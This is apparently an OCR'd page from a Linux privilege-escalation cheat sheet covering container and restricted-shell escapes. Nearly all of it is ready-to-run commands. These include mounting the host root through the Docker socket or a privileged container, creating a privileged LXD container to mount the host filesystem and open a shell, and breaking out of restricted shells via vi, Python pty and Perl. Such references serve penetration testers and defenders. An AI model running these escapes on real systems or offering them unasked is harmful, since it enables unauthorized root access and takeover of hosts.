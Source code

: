 ### Docker Escapes

```bash
# Check Docker group membership
groups

# If Docker socket is accessible
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

# With direct access to Docker binary
docker run --rm -d --privileged -v /:/hostsystem ubuntu

# Check for insecure Docker configurations
docker info
```

### LXC/LXD Escapes

```bash
# Import image
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

# Create privileged container
lxc init alpine r00t -c security.privileged=true

# Mount host filesystem
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

# Start container and get shell
lxc start r00t
lxc exec r00t /bin/sh
```

## 8. Restricted Shell Escapes

Methods:
- Command substitution: `ls -l $(pwd)`
- Command chaining with shell metacharacters
- Environment variable modification
- Shell functions

```bash
echo "$(<a.txt)"   # Command substitution to read files

# Common escape techniques
vi
:set shell=/bin/bash
:shell

python -c 'import pty; pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
```
